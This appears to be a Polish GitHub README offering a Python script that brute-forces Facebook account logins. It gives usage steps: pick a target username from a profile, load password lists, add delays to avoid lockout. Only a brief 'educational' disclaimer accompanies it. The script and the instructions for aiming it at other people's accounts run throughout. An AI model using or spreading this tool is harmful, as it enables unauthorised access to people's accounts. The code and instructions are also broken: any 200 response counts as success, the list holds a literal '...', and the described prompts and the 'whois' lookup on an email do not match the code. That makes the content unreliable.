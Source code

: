 

# Brute-force-
Brute force Facebook "używajcie w calch edukacji" nie ponoszę odpowiedźi
miłej zabawy wam życzę powodzenia w testach 
_____________________________________________



import requests
import time

def brute_force(username, password):
    url = "https://www.facebook.com/login.php"
    payload = {
        "email": username,
        "password": password,
        "login": "Log In"
    }
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Znaleziono hasło:", password)
        return True
    else:
        return False

def main():
    username = input("Podaj nazwę użytkownika: ")
    password_list = ["hasło1", "hasło2", "hasło3", ...]

    for password in password_list:
        if brute_force(username, password):
            break

    else:
        print("Nie znaleziono hasła.")

if __name__ == "__main__":
    main()





**UWAGA:** Ten program służy wyłącznie do celów edukacyjnych i testu bezpieczeństwa. Nie należy go wykorzystywać do innych celów 

**Opis działania programu:**

Program działa poprzez próbę logowania do konta Facebook podając różne kombinacje nazwy użytkownika i hasła. Najpierw użytkownik musi podać nazwę użytkownika, którą chce zaatakować. Następnie program przechodzi przez listę haseł i próbuje zalogować się z każdą kombinacją. Jeśli logowanie się powiedzie, program wydrukuje znalezione hasło. W przeciwnym razie program kontynuuje próbowanie kolejnych haseł.

**Ustawienia programu:**

Program można dostosować do własnych potrzeb, zmieniając następujące ustawienia:

* **Lista haseł:** Lista haseł, z których program będzie próbował korzystać. Listę można utworzyć ręcznie lub pobrać z zewnętrznego źródła.
* **Czas oczekiwania:** Czas oczekiwania między próbami logowania. Czas oczekiwania można ustawić, aby uniknąć blokady konta Facebook.

**Używanie programu:**

Aby użyć programu, należy wykonać następujące kroki:

1. Zainstaluj wymagane biblioteki.
2. Otwórz plik `brute_force.py` w edytorze tekstu.
3. Wprowadź nazwę użytkownika i listę haseł.
4. Zapisz plik i uruchom go.

**Ograniczenia programu:**

Program ma pewne ograniczenia:

* Program nie jest w 100% skuteczny. Istnieje możliwość, że program nie znajdzie hasła, nawet jeśli jest ono poprawne.
* Program może zostać zablokowany przez Facebooka. Jeśli program próbuje logować się zbyt wiele razy, Facebook może zablokować konto.


Aby móc testować konto za pomocą tego programu, należy podać następujące informacje:

* **Nazwa użytkownika:** Nazwa użytkownika konta, które chcesz zaatakować.
* **Lista haseł:** Lista haseł, z których program będzie próbował korzystać. Listę można utworzyć ręcznie lub pobrać z zewnętrznego źródła.

**Nazwa użytkownika**

Nazwa użytkownika to unikalny identyfikator konta Facebook. Możesz znaleźć nazwę użytkownika użytkownika, odwiedzając jego profil na Facebooku.

**Lista haseł**

Lista haseł to lista potencjalnych haseł, które użytkownik może używać do logowania się do swojego konta. Listę można utworzyć ręcznie, korzystając z popularnych słów, fraz lub kombinacji cyfr. Można również pobrać listę haseł z zewnętrznego źródła.

**Uwaga:**

Aby zwiększyć skuteczność programu, należy użyć listy haseł, która jest jak najbardziej aktualna i obejmuje szeroki zakres potencjalnych haseł.

**Przykład:**

Przykładowy sposób użycia programu do testowania konta Facebook:

```python
import requests
import time

def brute_force(username, password):
    url = "https://www.facebook.com/login.php"
    payload = {
        "email": username,
        "password": password,
        "login": "Log In"
    }
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Znaleziono hasło:", password)
        return True
    else:
        return False

def main():
    username = "example@example.com"
    password_list = ["hasło1", "hasło2", "hasło3", ...]

    for password in password_list:
        if brute_force(username, password):
            break

    else:
        print("Nie znaleziono hasła.")

if __name__ == "__main__":
    main()
```

W tym przykładzie nazwa użytkownika to `example@example.com`. Lista haseł to `hasło1`, `hasło2`, `hasło3`, ... Program będzie próbować logować się do konta Facebook, używając każdej kombinacji nazwy użytkownika i hasła z listy. Jeśli logowanie się powiedzie, program wydrukuje znalezione hasło. W przeciwnym razie program kontynuuje próbowanie kolejnych haseł.



Aby użyć programu w terminalu Kali, musisz umieścić plik `brute_force.py` w katalogu domowym. Możesz to zrobić, kopiując lub przenosząc plik do katalogu domowego.

**Kopiowanie pliku:**

```
cp brute_force.py ~
```

**Przenoszenie pliku:**

```
mv brute_force.py ~
```

Po umieszczeniu pliku w katalogu domowym możesz uruchomić go w następujący sposób:

```
python brute_force.py
```

Program poprosi Cię o podanie nazwy użytkownika i listy haseł. Możesz podać nazwę użytkownika ręcznie lub skorzystać z polecenia `whois`.

**Podanie nazwy użytkownika ręcznie:**

```
python brute_force.py
Podaj nazwę użytkownika: 100041219380500@gmail.com
```

**Użycie polecenia whois:**

```
whois 100041219380500@gmail.com
```

Skopiuj nazwę użytkownika z wyników polecenia whois i wprowadź ją do programu.

**Podanie listy haseł ręcznie:**

```
python brute_force.py
Podaj nazwę użytkownika: 100041219380500@gmail.com
Podaj listę haseł:
hasło1
hasło2
hasło3
...
```

**Użycie listy haseł z pliku:**

```
python brute_force.py
Podaj nazwę użytkownika: 100041219380500@gmail.com
Podaj nazwę pliku z listą haseł: hasła.txt
```

Po podaniu nazwy użytkownika i listy haseł program rozpocznie próbowanie logowania się do konta Facebook. Jeśli logowanie się powiedzie, program wydrukuje znalezione hasło. W przeciwnym razie program kontynuuje próbowanie kolejnych haseł.

**Uwaga:**

Program może zostać zablokowany przez Facebooka, jeśli będzie próbował logować się zbyt wiele razy. Aby uniknąć blokady, ustaw odpowiedni czas oczekiwania między próbami logowania.

**Uwagi końcowe:**

Program służy wyłącznie do celów edukacyjnych i testu bezpieczeństwa. Nie należy go wykorzystywać do nielegalnych działań.